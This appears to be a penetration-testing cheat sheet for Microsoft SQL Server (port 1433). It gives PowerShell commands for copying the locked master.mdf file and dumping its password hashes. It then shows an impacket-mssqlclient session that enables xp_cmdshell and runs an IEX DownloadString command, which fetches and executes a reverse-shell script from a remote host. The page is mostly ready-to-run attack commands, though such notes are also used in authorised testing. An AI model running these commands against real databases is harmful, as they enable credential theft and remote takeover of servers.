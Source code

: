# 1433 - MSSQL

## Dumping Hashes From master.mdf

* May need to use [Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1), as the file is locked during use.
* Extract hashes using [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes):

```
set-executionpolicy unrestricted
add-type -path .\OrcaMDF.Framework.dll
add-type -path .\OrcaMDF.RawCore.dll
import-module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf master.mdf
```

## Privilege Escalation

```
$ impacket-mssqlclient sa:password@10.0.0.1
SQL> enable_xp_cmdshell
SQL> reconfigure
SQL> xp_cmdshell whoami
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.1/rshell.ps1") | powershell -noprofile'
```

